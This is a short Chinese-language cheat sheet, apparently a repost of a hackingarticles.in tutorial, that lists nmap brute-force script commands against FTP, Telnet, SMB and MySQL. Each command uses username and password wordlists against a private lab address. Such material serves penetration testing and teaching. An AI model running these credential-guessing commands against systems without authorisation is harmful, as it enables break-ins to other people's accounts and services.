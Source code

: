 ## 使用Nmap进行密码破解

**FTP BRUTE ** [^1]

`nmap -p21 –script ftp-brute.nse –script-args \`

`userdb=/root/Desktop/user.txt,passdb=/root/Desktop/pass.txt 192.168.1.105`

**TELNET BRUTE**

`nmap -p23 –script telnet-brute.nse –script-args \`

`userdb=/root/Desktop/user.txt,passdb=/root/Desktop/pass.txt 192.168.1.105`

**SMB BRUTE**

`nmap –p445 –script smb-brute.nse –script-args \`

`userdb=/root/Desktop/user.txt,passdb=/root/Desktop/pass.txt 192.168.1.105`

 **MYSQL BRUTE**

`Nmap  -sT -p3306 –script mysql-brute.nse –script-args \ `

`userdb=/root/Desktop/user.txt 192.168.1.105`

[原文](https://www.hackingarticles.in/password-cracking-using-nmap/)

---

[^1]: 使用nmap的FTP脚本暴力破解密码。